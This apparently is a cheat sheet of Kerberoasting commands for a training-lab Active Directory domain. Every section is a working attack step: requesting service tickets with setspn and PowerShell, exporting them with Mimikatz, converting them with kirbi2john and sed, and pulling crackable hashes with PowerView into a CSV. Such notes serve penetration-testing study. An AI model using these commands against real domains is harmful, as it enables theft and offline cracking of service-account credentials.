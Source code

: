 **Retrieving All Tickets Using setspn.exe**
```
PS > setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

#### Extracting Tickets from Memory with Mimikatz**
```
mimikatz # base64 /out:true
mimikatz # kerberos::list /export  

```

**Preparing the Base64 Blob for Cracking**
```
$ echo "<base64 blob>" |  tr -d \\n 
```

**Placing the Output into a File as .kirbi**
```
$ cat encoded_file | base64 -d > sqldev.kirbi
```

**Extracting the Kerberos Ticket using kirbi2john.py**
```
$ python2.7 kirbi2john.py sqldev.kirbi
```

**Modifiying crack_file for Hashcat**
```
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

### Automated / Tool Based Route
#### Using PowerView to Extract TGS Tickets [https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1]
```
PS > Import-Module .\PowerView.ps1
PS > Get-DomainUser * -spn | select samaccountname
```

**Using PowerView to Target a Specific User**
```
PS > Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

**Exporting All Tickets to a CSV File**
```
PS > Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

**Viewing the Contents of the .CSV File**
```
PS > cat .\ilfreight_tgs.csv
```
